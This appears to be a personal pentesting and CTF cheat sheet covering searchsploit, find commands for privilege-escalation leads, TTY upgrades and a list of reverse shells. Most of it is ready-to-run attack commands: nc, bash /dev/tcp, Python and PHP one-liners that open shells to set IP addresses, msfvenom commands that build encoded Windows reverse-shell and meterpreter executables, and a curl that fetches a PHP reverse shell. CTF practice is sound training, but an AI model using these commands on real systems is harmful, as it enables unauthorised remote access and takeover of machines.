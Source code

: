 
<h3 class="border-bottom mb-3 mt-5" id="searchsploit">searchsploit</h3>

Local copy of the exploitdb database. That can you search in the commandline, very useful.

```
searchsploit -w query
searchsploit -p exploitnumber
```

<h3 class="border-bottom mb-3 mt-5" id="find-commands">find commands</h3>

Find is always available on linux systems. I usually run these to find the low hanging fruit before going to priv escalation scripts such as linpeas.
Especially for the easy CTF's these commands can point you to the intended priv escalation vector.

```
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
find / -user your_username 2>/dev/null
find . -type f -executable -print
getcap -r / 2>/dev/null
find / -name root.txt -exec cat {} \; 2>/dev/null 
```

<h3 class="border-bottom mb-3 mt-5" id="tty-from-reverse-shell">tty from reverse shell</h3>

You have a reverse shell but you want a more features. I almost always use these.

```
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<h3 class="border-bottom mb-3 mt-5" id="reverse-shells">reverse shells</h3>

Many options for different scenario's

```
nc 10.9.120.244 4444 –e /bin/sh
bash -i >& /dev/tcp/10.11.60.57/4444 0>&1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
php -r '$sock=fsockopen("10.9.120.244",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
msfvenom -p cmd/unix/reverse_netcat lhost=[ip] lport=4444 R
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.60.57 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.60.57 LPORT=5555 -f exe -o reverse.exe
curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php > reverse.php
```


<h3 class="border-bottom mb-3 mt-5" id="reverse-shells-documentation">reverse shells documentation</h3>

```
https://github.com/swisskyrepo/PayloadsAllTheThings
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
